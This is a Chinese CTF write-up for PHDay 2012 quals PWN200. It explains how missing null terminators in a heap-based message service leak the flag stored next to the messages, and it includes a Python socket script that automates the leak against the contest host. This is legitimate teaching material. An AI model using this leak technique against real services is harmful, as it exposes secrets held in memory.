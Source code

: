 ```yaml
---
title: PHDay CTF 2012 Quals PWN200
author: kelwin
layout: post
permalink: /phday-ctf-2012-quals-pwn200/
categories:
  - CTF
  - writeup
---
```

这道题是一个远程的binary服务，提供了消息操作的接口，连上去会有如下提示：  
<!--more-->

  
Welcome  
1 &#8211; save message  
2 &#8211; show message  
3 &#8211; append message  
4 &#8211; rewrite message  
5 &#8211; delete message

下载下来的binary文件名位heaptaskforbin，即可推断此题的利用点为heap。使用IDA反编译分析C代码，首先注意到客户端连接上以后，一个初始化的函数做了如下操作：

1.  随机在堆上存了n个随机的message，n也是100以内的随机数
2.  将flag文件读入堆中，指针不free也不引用
3.  随机free掉堆上在步骤1中已经分配的大约n/2个message

这是将flag读入堆中的代码：

![pwn200_flag_malloc][1]

由于步骤3中free掉了很多堆上的空间，因此如果再次使用，很可能会紧挨着堆中flag的数据，因此思路是寻找堆上的内存覆盖。

仔细分析服务提供的5个操作，重点关注save/append/rewrite这三个涉及写的函数，发现这些写的操作中都有个共同的问题：

![pwn200_exploit][2]

上述代码中仅仅将输入的&#8221;\n&#8221;和&#8221;\r&#8221;换成&#8221;\0&#8243;，如果输入的字串中没有&#8221;\n&#8221;和&#8221;\r&#8221;，则堆里面写入的字符串将没有结尾符，可以利用这一点先写入无结尾符的message，如果正好跟堆中flag的位置相连，就能把字符串连带flag给show出来。

利用这个思路，先往里save256个&#8221;A&#8221;，然后show这个字符串，比对这两者差异，如果相差较多，则很可能拿到的是flag，如果不够多，只差了几个字节，那么append一些&#8221;A&#8221;，将堆中的&#8221;\0&#8243;覆盖掉，进一步探测。

    def save(buf):
        s.send("1")
        print s.recv(8192)
        s.send(buf)
        ret = s.recv(8192)
        print ret
        id_ = ret.strip().replace('\n', '').split()[-1]
        return id_
    
    def append(id_, buf):
        s.send("3")
        print s.recv(8192)
        s.send(str(id_))
        print s.recv(8192)
        s.send(buf)
        print s.recv(8192)
    
    def show(id_):
        s.send('2')
        print s.recv(8192)
        s.send(str(id_))
        print s.recv(8192)
        ret = s.recv(8192)
        print ret
        buf = ret[0:ret.find("\n")]
        return buf
    
    s=socket.socket()
    s.connect(("ctf.phdays.com", 14455))
    
    print s.recv(8192)
    
    for i in range(20000):
        slen = 256
        buf = "A" * slen
        id_ = save(buf)
        ret = show(id_)
    
        diff = len(ret) - len(buf) + 1
        if diff > 10:
            print buf
            print ret
            break
        else:
            if diff < 10:
                diff = 10
    
        while slen+diff < 1024:
            diff_buf = "A" * diff
            buf += diff_buf
            slen += diff
            append(id_, diff_buf)
            ret = show(id_)
    
            diff = len(ret) - len(buf) + 1
            diff_buf = "A" * diff
    
            if diff > 10:
                print buf
                print ret
                break
    

写完这个自动探测的程序，我第一遍跑就拿到了flag：

![pwn200_flag][3]

 [1]: http://www.blue-lotus.net/wp-content/uploads/2012/12/pwn200_flag_malloc.jpg
 [2]: http://www.blue-lotus.net/wp-content/uploads/2012/12/pwn200_exploit.jpg
 [3]: http://www.blue-lotus.net/wp-content/uploads/2012/12/pwn200_flag.jpg